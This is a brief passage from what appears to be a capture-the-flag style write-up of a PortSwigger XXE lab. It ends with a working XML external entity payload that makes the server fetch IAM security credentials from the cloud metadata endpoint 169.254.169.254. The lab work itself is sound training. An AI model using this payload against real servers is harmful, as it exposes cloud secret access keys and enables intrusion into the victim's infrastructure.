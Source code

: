 ![credentials](/docs/assets/images/portswigger/xxe/xxe11.png)

Finally I have come across the `admin` endpoint I was looking for which is the request the returns the Secret Access Key in the response and solves the lab. 

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>` 
